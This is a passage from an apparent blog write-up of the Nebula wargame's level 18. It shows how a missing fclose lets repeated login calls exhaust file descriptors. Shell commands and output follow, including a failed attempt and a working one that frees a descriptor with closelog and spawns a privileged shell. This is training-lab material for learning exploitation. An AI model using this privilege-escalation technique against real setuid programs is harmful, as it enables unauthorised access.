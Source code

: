 We see that there is a limit of 1024 file descriptors per process. Looking at
the disassembly of the `flag18` binary, we see that the `fclose(fp)` function
call from the source isn't actually present in the binary. This means that
the login function consumes one file descriptor without freeing it every time
it is called.

![Hopper image]({{ site.url }}/assets/nebula-18-hopper.png)

We now have our attack plan. We will call `login` 1021 times (3 file
descriptors are required for stdin, stdout and stderr) giving us a process that
has consumed 1024 file descriptors, call `login` again which will succeed
before calling `shell` to `execve` our shell.

```shell
level18@nebula:~$ python -c "print 'login asdf\n' * 1022" > commands
level18@nebula:~$ python -c "print 'shell\n'" >> commands
level18@nebula:~$ cat commands | /home/flag18/flag18
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

This fails because running `execve` itself requires a file descriptor. This
means that we need to free up a file descriptor after calling `login` and
before calling `shell`. Conveniently, the `closelog` command does just that.

Our modified attack plan will be to call `login` 1020 times (3 file descriptors
for stdin, stdout and stderr plus 1 file descriptor for the debug file) giving
us a process that has consumed 1024 file descriptors. We will call `login`
again which will succeed, then we will call `closelog` that closes the debug
file, freeing up a file descriptor. Finally, we will call `execve` to obtain
our shell.

```shell
level18@nebula:~$ python -c "print 'login asdf\n' * 1021" > commands
level18@nebula:~$ python -c "print 'closelog\n'" >> commands
level18@nebula:~$ python -c "print 'shell\n'" >> commands
level18@nebula:~$ cat commands | /home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md